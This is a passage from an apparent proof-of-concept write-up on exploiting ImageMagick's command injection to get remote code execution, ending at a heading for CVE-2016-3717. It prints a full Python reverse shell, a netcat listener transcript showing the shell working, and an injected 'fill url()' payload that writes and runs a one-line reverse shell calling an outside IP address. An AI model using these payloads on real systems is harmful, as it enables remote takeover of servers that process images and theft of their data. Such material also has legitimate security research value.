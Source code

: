 The python script binds to the netcat listener and `subprocess.Popen` shelling out the commands, and piping back in stdout to the socket.

```python
import socket
import os
import subprocess

s = socket.socket()

host = "127.0.0.1"
port = 443

s.connect((host, port))

while True:
        data = s.recv(1024)
        if data[:2].decode("utf-8") == 'cd':
                os.chdir(data[3:].decode("utf-8"))

        if len(data) > 0:
                cmd = subprocess.Popen(data[:].decode("utf-8"), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE) 
                
                output_bytes = cmd.stdout.read() + cmd.stderr.read()
                output_str = str(output_bytes, "utf-8")

                s.send(str.encode(output_str + str(os.getcwd()) + '> '))
                print(output_str)

s.close()
```

While back on the netcat instance on the attacker host, have a working remote shell:

    root@kali:~/Downloads/ImageMagick-6.9.2-10# nc -l -p 443
    uname
    Linux
    /root/git/PoCs> date
    Sun 29 Sep 2019 04:24:52 PM AEST
    /root/git/PoCs> 


A variation would be to pack the python, avoiding the download step which adds a level of brittleness to the exploit, as the host might not have outbound network connectivity, and so on:

    fill 'url(https://example.com/image.jpg"|/bin/echo -e \'import 
    socket\x2csubprocess\x2cos;s=socket.socket(socket.af_inet\x2csocket.sock_stream);
    s.connect(("xx.xx.24.85"\x2c443));p=subprocess.call(\x5b"/bin/sh"\x2c"-i"\x5d);\'
    > /dev/shm/a.py|python "/dev/shm/a.py)'



## Local file read (CVE-2016-3717)

